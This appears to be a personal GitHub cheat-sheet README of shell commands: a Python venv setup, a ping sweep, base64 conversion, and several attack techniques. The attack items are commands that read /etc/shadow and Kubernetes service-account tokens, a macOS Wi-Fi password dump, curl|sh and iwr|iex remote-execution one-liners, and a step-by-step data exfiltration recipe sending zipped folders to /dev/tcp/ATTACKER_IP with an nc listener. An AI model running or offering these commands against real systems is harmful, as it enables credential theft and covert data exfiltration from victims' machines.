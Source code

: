 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 

    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts 💩
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/bashscript.sh | sh

### BASE64 
--- 

Convert to Base64

    [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("roman"))      

Results:

	cm9tYW4=

Decode from Base64

    [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('cm9tYW4='))

Results:

	Roman
